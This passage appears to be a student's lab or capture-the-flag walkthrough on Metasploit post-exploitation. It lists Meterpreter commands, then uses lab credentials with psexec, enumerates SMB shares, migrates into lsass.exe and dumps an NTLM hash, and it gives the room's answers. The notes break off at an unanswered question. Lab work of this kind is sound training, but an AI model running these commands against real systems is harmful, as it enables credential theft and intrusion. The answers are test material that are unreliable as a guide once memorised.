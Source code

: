 > [!CAUTION]
> You may lose your user privileges if you migrate from a higher privileged user to a process started by a lower privileged user.
- `hashdump` - dumps content of the SAM database
  - SAM (Security Account Manager) stores user passwords on Windows systems.
  - Passwords are store in NTLM (New Technology LAN Manager) format.
- `search -f` - locate files
- `shell` - launch regular command-line shell on target system
- `getsystem` - attempt to elevate your privilege to that of local system
- Goals of post-exploitation phase:
  - Gathering further information about the target system
  - Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system
  - Privilege escalation
  - Lateral movement
  
## Questions
### Task 5
You can use the credentials below to simulate an initial compromise over SMB (Server Message Block) (using exploit/windows/smb/psexec)
> Username: ballen
> Password: Password1
- What is the computer name?
  ```
  use exploit/windows/smb/psexec
  set rhosts <target_ip>
  set smbpass Password1
  set smbuser ballen
  run
  sysinfo
  ```
  > ACME-TEST
- What is the target domain?
  > FLASH
- What is the name of the share likely created by the user?
  ```
  use auxiliary/scanner/smb/smb_enumshares
  set rhosts <target_ip>
  set smbpass Password1
  set smbuser ballen
  run

  background
  use post/windows/gather/enum_shares
  set session <num>
  run
  ```
  > speedster
- What is the NTLM hash of the jchambers user?
  
  **?** Use `ps` to find PID of lsass.exe.
  ```
  migrate <PID>
  hashdump
  ```
  > 69596c7aa1e8daee17f8e78870e25a5c
- What is the cleartext password of the jchambers user?
  